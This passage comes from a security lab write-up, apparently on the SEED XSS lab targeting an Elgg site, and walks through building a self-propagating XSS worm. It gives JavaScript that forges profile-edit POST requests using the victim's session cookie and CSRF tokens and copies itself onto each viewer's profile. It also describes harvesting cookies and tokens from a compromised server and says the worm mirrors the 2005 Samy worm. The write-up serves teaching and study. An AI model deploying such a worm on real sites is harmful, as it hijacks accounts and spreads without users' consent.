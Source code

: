 The above code will first change the `user11`'s 'about me' portion to "User-11-is-great". Therefore, this will not affect others who view this profile. However, considering we have access to the server (the server has been hacked in our favor), then this script can be embedded in the server website hosting folder, from where it can be sourced like the image format to obtain the cookie and tokens. This way when any user visits the infected profile, the script will get loaded due to the image format js code in the infected profile.
Also, this method can be used to change the contents of a user by forming a request using python or any other programming language (assuming the authentication parameters are already with the attacker).
The best possible attack for a web app like this one which is vulnerable to XSS is using a proper worm i.e., self propagating worm.

### Task 6 : Creating a self propagating worm
The parts of adding the attacker as a friend as well as posting on the victim's account, without the victim's consent can be combined into one javascript code and then made self propagating.

The process of self propagating sees the following approach -
The code will have to be replicated by the code itself. This can be done by using the POST method as described in Task 5. The method to do the following is -
```js
<script id="daut" type="text/javascript">
var replicate="<script id=\"daut\" type=\"text/javascript\">".concat(document.getElementByID("daut").innerHTML).concat("</").concat("script>");
...............
</script>
```
The breakup of `</` and `script>` is required as the browser may distinguish it as the ending tag for the first `<script>`.

This approach can be merged with the POST exploit to copy the required update and the code itself onto the victim's account. The transfer of all code and data in the web takes place through URLencoding in which `+` denotes a ` `. Therefore, instead of using `+` to add strings (concatenation), we use the `concat()` function. Also if there are any addition operations, they should be done using `a+b = a-(-b)` method.

The code clubbed with the POST exploit is as follows -
```js
<script id="daut" type="text/javascript">
var sp="<script id=\"daut\" type=\"text/javascript\">".concat(document.getElementByID("daut").innerHTML).concat("</").concat("script>");
var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;
ff=new XMLHttpRequest();
ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie",document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
ff.setRequestHeader("Referer","http://www.xsslabelgg.com/profile".concat(elgg.session.user["username"]).concat("/edit"));
params="__elgg_ts=".concat(ts).concat("&__elgg_token=").concat(token).concat("&description=User-11-is-great").concat(escape(sp)).concat("&name=").concat(elgg.session.user["username"]).concat("&accesslevel[description]=2&guid=").concat(elgg.session.user["guid"]);
ff.send(params);
```
The `escape()` function converts the inner strings to URLencoding for http transfer. Now when a user views the profile of `user11`, the user's account will have its 'about me' section set to "User-11-is-great". Also the code itself will be copied to the user's page.
Also now since the code is in the user's page, whenever a user views the account of this user, the code will get executed and the new user will also have his account modified.
The add friend exploit can also e added to the above code as a new XMLHttpRequest part. That code will become the exact replica of the famous Samy's worm attack of 2005.
